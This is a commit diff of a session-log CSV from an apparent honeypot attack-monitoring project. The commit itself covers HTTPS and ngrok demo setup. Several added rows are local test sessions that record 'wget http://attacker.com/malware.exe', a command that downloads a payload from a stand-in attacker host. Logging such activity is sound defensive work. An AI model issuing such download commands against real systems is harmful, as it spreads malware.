

Before and after one commit to Ravikiran-44/HONEYPOT-FOR-ATTACK-MONITORING-WITH-AUTOMATED-ANALYSIS-DASHBOARD, a CSV file: output/honeypot_sessions.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Add HTTPS support with mkcert and ngrok setup for LinkedIn demo
- Configured .streamlit/config.toml for HTTPS with localhost certificates
- Generated localhost.pem and localhost-key.pem using mkcert
- Added session data and demo evidence files
- Updated .streamlit config with secure server settings
- Ready for public exposure via ngrok for demo purposes

```diff
--- a/output/honeypot_sessions.csv
+++ b/output/honeypot_sessions.csv
@@ -29 +29,6 @@ S-1768933303,127.0.0.1,58044,2026-01-20 23:51:44,wget http://attacker.com/malwar
 S-1768933348,127.0.0.1,60691,2026-01-20 23:52:29,wget http://attacker.com/malware.exe,2222,default,recon,LOCAL
+S-1769709063,127.0.0.1,58397,2026-01-29 23:21:04,wget http://attacker.com/malware.exe,2222,default,recon,LOCAL
+S-1770355901,127.0.0.1,55771,2026-02-06 11:01:41,Connection events only,2222,default,unknown,LOCAL
+S-1770355902,127.0.0.1,55775,2026-02-06 11:01:42,wget http://attacker.com/malware.exe,2222,default,recon,LOCAL
+S-1770537908,127.0.0.1,51134,2026-02-08 13:35:08,Connection events only,2222,default,unknown,LOCAL
+S-1770537909,127.0.0.1,51135,2026-02-08 13:35:10,wget http://attacker.com/malware.exe,2222,default,recon,LOCAL
```
Also changed, not shown: 18 other files.
